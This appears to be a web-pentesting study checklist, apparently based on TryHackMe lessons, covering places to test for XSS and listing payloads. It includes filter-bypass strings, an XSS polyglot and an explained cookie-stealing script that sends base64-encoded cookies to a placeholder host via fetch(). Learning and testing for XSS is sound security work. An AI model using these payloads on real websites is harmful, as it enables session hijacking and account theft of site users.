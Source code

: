- [ ]  Only the path of the URL
![alt text](../images/image-7.png)
![alt text](../images/image-8.png)

## XSS

- [ ]  Reflected XSS - Test input fields that display back user input
- [ ]  Stored XSS - Check fields that store data like comments or user profiles
- [ ]  DOM-based XSS - Review client-side JavaScript that manipulates the DOM
- [ ]  Test for XSS in HTTP headers - especially the User-Agent header
- [ ]  Try different encoding methods to bypass filters (URL encoding, HTML encoding)
- [ ]  Check for XSS in file upload functionality - especially in file names and metadata
- [ ]  Test error messages for XSS vulnerabilities
- [ ]  Payloads
    - [ ]  Basic - `<script>alert('Hello');</script>`
    - [ ]  Input tag escape -  `"><script>alert('Hello');</script>`
    - [ ]  Textarea escape - `</textarea><script>alert('Hello');</script>`
    - [ ]  Javascript code escape - `';alert('Hello');//`
        
        ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/80fd5abe95b63ce52ff0ff9f9f6f6d57.png)
        
        ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/17c6b9717f16af910557438017be9c53.png)
        
    - [ ]  String-based detection escape - `<sscriptcript>alert('Hello');</sscriptcript>`
    - [ ]  Img tag escape - `/images/cat.jpg" onload="alert('Hello');`
    - [ ]  **Polyglots:** An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. Example: `jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Hello') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Hello')//>\x3e`
    - [ ]  Dom-based cookie nabber - `<script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
        - The `</textarea>` tag closes the text area field.
        - The `<script>` tag opens an area for us to write JavaScript.
        - The `fetch()` command makes an HTTP request.
        - `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
        - `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
        - `?cookie=` is the query string containing the victim’s cookies.
        - `btoa()` command base64 encodes the victim’s cookies.
        - `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
        - `</script>`closes the JavaScript code block.
    